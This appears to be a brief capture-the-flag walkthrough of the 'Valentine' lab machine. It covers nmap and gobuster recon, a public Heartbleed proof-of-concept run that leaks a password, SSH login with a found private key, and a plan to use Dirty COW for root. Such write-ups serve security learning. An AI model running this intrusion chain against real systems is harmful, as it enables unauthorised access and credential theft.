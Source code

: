 10.10.10.79

# Running nmap
root@kali > nmap -sV -sC -oA nmap/valentine

    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
    |   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
    |_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
    80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
    |_http-server-header: Apache/2.2.22 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
    |_http-server-header: Apache/2.2.22 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
    | Not valid before: 2018-02-06T00:45:25
    |_Not valid after:  2019-02-06T00:45:25
    |_ssl-date: 2019-06-21T13:38:10+00:00; -20s from scanner time.
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Running gobuster
root@kali: gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://valentine.htb
    /index (Status: 200)
    /dev (Status: 301)
    /encode (Status: 200)
    /decode (Status: 200)
    /omg (Status: 200)
    /server-status (Status: 403)

# The server is vulnerable to Heartbleed (main picture on the index page is a big fat hint).
# It could be checked by msf or nmap script

# Let's use python POC exploit: https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py

root@kali: python heartbleed.py 10.10.10.79

# It exposed interesting piece of memory:
    $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
# Which is encoded to heartbleedbelievethehype

# In /dev folder we see a file: https://valentine.htb/dev/hype_key
# Let's convert it to ASCII and see it's a private key

# Save the private key and use it for ssh connection with the password we found heartbleedbelievethehype:
root@kali: ssh -i hype.key hype@valentine.htb

# Linenum shows that the kernel is super old and vulnerable to dirty cow. So we can just download, compile and execute known exploit.
